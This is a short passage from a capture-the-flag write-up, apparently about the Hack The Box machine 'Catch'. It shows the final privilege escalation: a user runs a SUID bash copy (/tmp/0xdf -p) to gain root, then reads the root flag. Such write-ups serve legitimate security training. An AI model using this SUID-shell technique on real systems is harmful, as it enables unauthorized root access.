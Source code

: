     
    
    will@catch:/opt/mdm$ /tmp/0xdf -p
    0xdf-5.0# id
    uid=1000(will) gid=1000(will) euid=0(root) groups=1000(will)
    

That’s enough to read the flag:

    
    
    0xdf-5.0# cd /root
    0xdf-5.0# cat root.txt
    ac5a5ae9************************
    

[](/2022/07/23/htb-catch.html)

